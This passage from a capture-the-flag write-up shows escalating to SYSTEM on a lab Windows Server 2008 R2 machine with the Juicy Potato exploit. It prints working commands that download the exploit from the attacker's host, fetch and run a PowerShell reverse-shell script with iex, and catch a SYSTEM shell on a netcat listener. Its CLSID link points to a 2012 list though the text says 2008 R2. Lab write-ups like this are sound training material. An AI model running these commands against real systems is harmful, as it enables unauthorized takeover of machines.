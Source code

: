 With a compromised user that is part of the `NT AUTHORITY\SERVICE` group and has the `SeImpersonatePrivilege` privilege, and that the operating system is a 64-bit `Windows Server 2008 R2 Datacenter` is a recipe for the [Juicy Potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato). I already had a copy of JuicyPotato on my kali machine, so I went ahead and got the bastard machine to download it from my kali machine:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.24:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

```none
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [02/Sep/2020 14:33:20] "GET /JuicyPotato.exe HTTP/1.1" 200 -
```

At first, the JuicyPotato exploit didn't work. That was because I needed to change the CLSID to match `Windows Server 2008 R2 Datacenter`. You can find a list of CLSIDs for `Windows Server 2008 R2 Datacenter` [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter).

```none
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -t *
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1337
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

The command above executed the Juicy Potato exploit which invoked an out-of-band powershell process which downloaded and executed the `Invoke-PowerShellTcp.ps1` from my kali machine:

```none
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [02/Sep/2020 14:38:03] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

Executing `Invoke-PowerShellTcp.ps1` via an out-of-band powershell process with SYSTEM privileges connected back to my netcat listener:

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49334.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```
